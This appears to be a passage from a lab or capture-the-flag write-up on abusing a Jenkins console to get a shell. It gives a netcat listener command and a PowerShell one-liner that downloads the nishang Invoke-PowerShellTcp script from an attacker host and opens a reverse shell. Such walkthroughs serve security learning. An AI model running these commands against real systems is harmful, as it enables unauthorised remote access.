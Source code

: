 ### jenkins console to spawn a shell

We will use [nishang](https://github.com/samratashok/nishang) to get access.

We will start by hosting a simple server in the location of our nishang shell.

![hosting nishang](hosting_nishang.png)

Also start a `nc` listener.

```
──(root㉿kali)-[~]
└─# nc -nvlp 9001
```

Now execute the following system commands through jenkins.

`powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port`. What this does is download our shell and then opens it, giving us a connection to the system.

![execute shell](execute_shell.png)

Save and Build Now and check our listner.
